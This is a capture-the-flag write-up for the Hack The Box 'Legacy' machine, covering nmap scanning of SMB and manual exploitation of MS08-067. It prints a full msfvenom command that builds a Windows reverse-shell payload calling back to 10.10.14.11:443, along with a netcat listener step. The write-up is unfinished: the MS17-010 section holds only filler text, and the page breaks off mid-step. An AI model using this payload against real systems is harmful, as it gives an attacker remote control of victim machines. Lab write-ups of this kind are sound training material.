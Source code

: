 ![legacy](https://user-images.githubusercontent.com/43796175/105492077-5e740680-5c85-11eb-8224-07901100704c.jpg)

## LEGACY: Write Up

In this machine i learn about MS-08-067 (CVE-2008-4250) and MS-17-010 (CVE-2017-0143), two exploits of SMB. Exploit this vulnerability manually is simple.

# 01: Information Gathering

First of all i ran nmap with basic commands and i saw two open ports and one closed:

![nmap](https://user-images.githubusercontent.com/43796175/105779180-cf444880-5f3b-11eb-8233-22831472876c.jpg)

Then i did a deeper scan with nmap against 445 port:

![smbnmap](https://user-images.githubusercontent.com/43796175/105779606-b5573580-5f3c-11eb-87a3-a4b20fd80a5b.jpg)
![smbnmap02](https://user-images.githubusercontent.com/43796175/105779613-b7b98f80-5f3c-11eb-86f4-92610487a8b2.jpg)

Nmap showed MS-08-067 (CVE-2008-4250) and MS-17-010 (CVE-2017-0143) are very interesting to exploit.

# 02: Threat Modeling

In my mental map smbclient and smbmap were the first option to test, but without results:

![smbno](https://user-images.githubusercontent.com/43796175/105781825-3d3f3e80-5f41-11eb-8e15-73347d9c62f0.jpg)


# 03: Vulnerability Analysis

Both of these vulnerabilities (MS-08-067 & MS-17-010) gives a shell as system and each one have a metasploit module for exploit easily but i will show how exploit this manually.

# 04: Exploitation

## MS-08-067

I will use [this exploit](https://github.com/andyacer/ms08_067) for exploit the vulnerability, this script requires impacket and replace the default shellcode with some of my own. Ok, to make the shellcode i used *msfvenom*:

`
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.11 LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f py -v shellcode -a x86 --platform windows
`


![venom,](https://user-images.githubusercontent.com/43796175/105800547-fb27f400-5f64-11eb-9111-86f7272892ed.jpg)

The parameters are:

* -p: Type of payload (Single payload, you can learn about this [here](https://github.com/rapid7/metasploit-framework/wiki/How-payloads-work) )
* LHOST: Host where reverse connection is follow
* LPORT: Port where reverse connection is follow
* EXITFUNC: How is the exit
* -b: The bad characters not to use (The script gave me this)
* -f: Output in python format
* -v: Have the code set the variable *shellcode*
* -a: Architecture of the output
* --platform: OS for script (Windows in this case)

Then i will take this shellcode into the script and replace in the original:

![replce](https://user-images.githubusercontent.com/43796175/105800728-6b367a00-5f65-11eb-98b4-e046daddc172.jpg)

The exploit require that i know the version of Windows and language pack are running in the victim. I ran nmap again for this purpose:

![os](https://user-images.githubusercontent.com/43796175/105800920-e9931c00-5f65-11eb-9d2a-2bed37a3e6ba.jpg)

Apparently the version can be Windows XP, and with the language pack i tried to find the right one.

NOTE: In this point, i had a problem with *pip* and *pip3* in Parrot OS Security, for repair part [this problem](https://forum.hackthebox.eu/discussion/3940/installing-pip2-apt-install-python-pip-no-longer-works) i need a file "*get_pip.py*" provided by [Dr. Zaiuss](https://github.com/zaiuss). You can find this file [*here*](https://github.com/0xCGonzalo/HtB-Write-Ups/blob/main/Machines/Legacy/get_pip.py)

Now, i set a netcat in the port 443 (configured in my shellcode):

![nc](https://user-images.githubusercontent.com/43796175/105801440-1f84d000-5f67-11eb-9ce4-6d4a88410f89.jpg)

And i run the script:

![okcon](https://user-images.githubusercontent.com/43796175/105801530-4d6a1480-5f67-11eb-9ae5-b0d2467afe71.jpg)

I checked my connection and i got a reverse shell:

![ok1](https://user-images.githubusercontent.com/43796175/105801634-85715780-5f67-11eb-803c-6a6c43970390.jpg)

## MS-17-010

asdasdasd

# 05: Post-Exploitation

As you may noticed, the system command "*whoami*" doesn't work in anyone case. Let's fix this.

First, is necessary check the path of this binary in your system (i'm running Parrot OS, but in Kali Linux work fine):


